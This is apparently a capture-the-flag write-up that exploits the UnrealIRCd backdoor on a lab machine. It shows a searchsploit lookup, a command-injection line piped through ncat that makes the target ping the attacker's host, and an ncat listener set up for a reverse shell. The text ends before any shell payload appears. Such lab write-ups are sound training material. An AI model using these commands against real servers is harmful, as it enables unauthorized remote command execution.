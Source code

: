 
*end up finding multiple vulnerabilities* 


## searchsploit UnrealIRC

    searchsploit unreal

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556513766362_image.png)


*metasploit backdoor command execution identified.*


google “unrealirc backdoor” leads to Link: https://lwn.net/Articles/392201/ which describes exactly how the exploit works.

nutshell: 
Backdoor disguised to look like debug code:

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556513937766_image.png)

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556513879421_image.png)


moving forward without metasploit as now know how the exploit functions.

## Setup tcpdump pipe to UnrealIRC

    tcpdump -i tun0 icmp

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556514052368_image.png)


setup ping to UnrealIrc:

    echo "AB; ping -c 1 10.10.14.3" | ncat 10.10.10.117 8067

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556514179163_image.png)


*after connection to IRC timed out we got an execution of the ping (ICMP) that was captured on tcpdump.*


## Command Execution

from the realization that a ping can be sent via the “AB” exploit now move to create a reverse shell


## setup listener & send reverse shell

    ncat -lvnp 9001

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556514322060_image.png)
